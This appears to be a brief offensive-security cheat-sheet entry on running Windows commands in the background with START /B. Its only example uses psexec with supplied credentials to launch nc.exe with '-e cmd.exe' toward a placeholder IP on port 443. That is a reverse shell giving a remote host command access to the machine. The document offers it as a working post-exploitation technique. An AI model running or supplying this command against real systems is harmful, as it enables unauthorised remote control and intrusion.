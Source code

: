 # Background Commands

## **Windows**

USE START /B \<title for background> \<actual command> so that the commands are run in the background and won't break the shell.

Example:

```
C:\Users\Public>start /b "shell" psexec.exe -accepteula -u COMPUTERNAME\username -p passwd "C:\Users\Public\nc.exe" <ip> 443 -e cmd.exe 
```

****
